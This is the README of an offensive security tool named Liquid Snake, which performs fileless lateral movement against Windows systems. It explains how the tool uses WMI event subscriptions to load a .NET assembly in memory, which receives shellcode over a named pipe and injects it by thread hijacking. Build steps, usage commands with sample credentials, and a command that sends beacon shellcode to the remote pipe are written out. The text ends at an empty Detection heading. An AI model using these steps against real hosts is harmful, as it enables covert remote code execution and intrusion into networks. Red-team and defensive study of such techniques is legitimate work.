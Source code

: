 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman deahtoFrodo123 isengard.local
```

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Second some DCOM love..
[*] Sleeping again... long day
```

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

## Detection